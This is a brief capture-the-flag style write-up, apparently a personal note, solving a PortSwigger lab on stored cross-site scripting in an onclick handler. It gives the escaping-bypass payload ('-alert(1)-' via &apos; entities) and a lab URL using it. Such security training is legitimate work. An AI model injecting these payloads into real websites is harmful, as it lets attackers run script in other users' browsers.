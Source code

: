 **Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped**

```
http://foo?&apos;-alert(1)-&apos;
```

From <https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped> 


Post on comment section and than you can click on the image to xss
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/112b4bd1-cd35-4908-bfb3-ec5990576bee)







We can also use 
```
https://0a720085047a86048149f7810017003d.web-security-academy.net/?'-alert(1)-'
```

